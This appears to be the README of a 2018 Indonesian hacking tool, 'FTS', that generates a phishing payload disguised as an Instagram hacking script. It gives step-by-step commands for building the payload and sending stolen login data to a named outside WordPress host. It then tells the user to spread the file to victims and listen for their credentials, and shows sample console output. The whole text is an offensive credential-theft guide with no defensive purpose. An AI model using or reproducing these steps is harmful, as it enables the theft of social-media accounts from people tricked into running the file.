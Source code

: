 ############################################
<br>
PROJECT TITTLE : FTS (FUCK THE SOCIAL)
<br>
CODENAME       : Python
<br>
COPYRIGHT      : (C) Copyright 2018 LOoLzeC Scurity
<br>
CODED BY       : DERAY
<br>
FACEBOOK       : Deray
<br>
INSTAGRAM      : @reyy05
<br><br>
TAG            : HACKING,PHISING,SOCIAL ENGINEERING ATTACK,SOCIAL MEDIA AND FUCKING YOU ALL SOSMED!!!
<br>                                     
###########################################
<br><br>
(step satu)

membuat payload
command contoh : SET PAYLOAD AkSIsrR.txt
deskripsi : payload ini penting untuk listening nanti jika target sudah memasukan data login nya di payload yang sudah kita buat,btw tool ini harus terhubung ke internet,not offline ya akmj!1!

(step dua)

memberi output(nama file payload nya)
command contoh : SET OUTPUT hack-instagram.py
deskripsi: perlu di ingat,jangan lupa namakan file nya dengan ekstensi py

(step tiga)

memberi nama query(akun apa yang ingin anda hack)
command contoh : SET QUERY INSTAGRAM
deskripsi: jika anda memasukan query instagram,atau tittle akun apa saja yang kalian mau,otomatis query ini akan masuk ke source payload kalian contoh outputnya di target [*] Login INSTAGRAM Lu Dulu Bos...
query INSTAGRAM itu adalah query yang sudah kalian buat dengan command SET QUERY

(step empat)

memberi tanggal dan tahun
contoh command : SET DATE 2018/08
deskripsi : nah ini juga penting buat listening nanti,ane kan redirect log nya hanya di satu host wordpress,jadi nanti listening nya di sini http://ailisgarcia.com/wp-content/uploads/2018/08/ AkSIsrR.txt
apakah sudah mengerti? 2018/08 dan AkSIsrR.txt itu adalah date dan log payload yang sudah kita input dengan command SET PAYLOAD AkSIsrR.txt dan SET DATE 2018/08

(step lima)

generate
command : generate
deskripsi: dan terjadilah disini pembuatan payload kalian buat untuk di eksekusi target nanti,tunggu sampe sukses.

(step terakhir)

sebarkan payload berekstensi hack-instagram.py ke target anda,dan biarkan dia mengeksekusinya dan memasukan log data login nya terlebih dahulu

sekarang tugas anda adalah mendengarkan sampai korban memasukan log data login mereka
command : listen

atau untuk contoh manual listening command:

fts> SET PAYLOAD AkSIsrR.txt
PAYLOAD => AkSIsrR.txt
fts> SET QUERY INSTAGRAM
QUERY => INSTAGRAM
fts> SET DATE 2018/08
DATE => 2018/08
fts> listen
[*] listening..."
[*] LISTENING TARGET......"
ditunggu saja sampai korban memasukan log nya ^^

bantuan command : help,?,show options


